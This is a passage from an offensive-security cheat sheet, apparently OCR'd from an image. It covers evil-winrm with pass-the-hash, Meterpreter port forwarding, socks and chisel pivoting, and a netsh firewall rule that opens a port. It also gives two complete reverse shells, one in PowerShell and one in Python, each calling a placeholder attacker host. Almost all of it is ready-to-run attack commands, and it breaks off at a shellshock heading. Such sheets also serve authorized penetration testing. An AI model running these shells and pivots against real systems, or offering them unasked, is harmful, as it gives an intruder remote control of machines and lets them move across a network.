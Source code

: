 		evil-winrm:

			evil-winrm -u <user> -H <hash> -i <IP> (or -p for password instead of hash) -s <include scripts path>

			upload LOCAL_FILEPATH REMOTE_FILEPATH
			download REMOTE_FILEPATH LOCAL_FILEPATH
			include Empire scripts from - /opt/Empire/data/module_source/<path>/<to>/<script>

		port forward for RDP:

			portfwd add -L 127.0.0.1 -l 3389 -r <remote machine> -p 3389
			rdesktop -u <domain>\<user> -p "<password>" 127.0.0.1
		
		portfwd:

			portfwd add -L <LHOST> -l <LPORT> -p <PORT TO FORWARD>(80,3389,etc.) -r <RHOST>

		file share with RDP:

			xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share


		socks4a & proxychains:

			socks4a:
			use auxiliary/server/socks4a
			set SRVHOST as LHOST, and SRVPORT as the port of the pivot.

			proxychains:
			set proxychains to connect through the newly made socks4 proxy.
			run commands freely(modify /etc/proxychains.conf).


		chisel:

			chisel server -p <SRVPORT> --socks5
			chisel client <RHOST>:<SRVPORT> <PROXY_PORT>:socks

			netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=<PORT>


HELPFUL STUFF ::

	powershell rev shell:

		powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('<LHOST>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

	python rev shell:

		python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<ATTACKER_PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

	shellschock test:
